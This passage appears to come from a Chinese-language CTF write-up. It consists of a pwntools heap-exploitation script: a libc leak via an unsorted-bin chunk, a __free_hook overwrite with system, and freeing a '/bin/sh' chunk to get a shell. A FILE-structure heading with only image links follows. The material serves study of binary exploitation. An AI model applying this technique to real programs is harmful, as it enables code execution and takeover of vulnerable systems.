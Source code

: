 ```python
    p.recvuntil('string:')
    p.sendline(str(i))
for _ in xrange(19):
    add('aaa')
    #让free后再unsorted bin中

# launch_gdb()
edit(0,'a'*48 + p64(0x65) + p64(0x40*17 + 1))
#不能与top chunk相邻
dele(1)
edit(0,'a'*64)#leak
show(0)
p.recvuntil('a'*64)
leak = u64(p.recv(6)+'\x00\x00')
log.info('leak libc ' + hex(leak))

libc_base = leak - 4111520
free_hook = 4118760 + libc_base
sys_addr = 324832+0x70 + libc_base
edit(0,'a'*48 + p64(0x65) + p64(0x40*17 + 1))#恢复
add('aaa')
add('aaa')

dele(6)#随便腾个空间
dele(2)
edit(19,p64(free_hook))
add(p64(sys_addr))
add(p64(sys_addr))

edit(9,'/bin/sh\x00')
dele(9)

p.interactive()
```

# FILE结构体

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102311828-2261ae71-4131-4d47-93aa-7343236438d0.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102321675-fd9a2532-ef49-415e-b65e-e4a0e1dafc2d.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102328896-ee765b9c-c36c-4295-9c1d-e44788a65765.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102338910-0af73d99-0df2-4fe2-9895-a39f9a2ab8a0.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102362547-3b7a90e5-1ab7-4c19-a9f4-9ba472ca728e.png)

![image.png](http://qiniu.zhixia.xyz/qiniuimg/1605102383591-8fecd9a6-d1d1-42b0-afa7-a1f1d092d3b1.png)
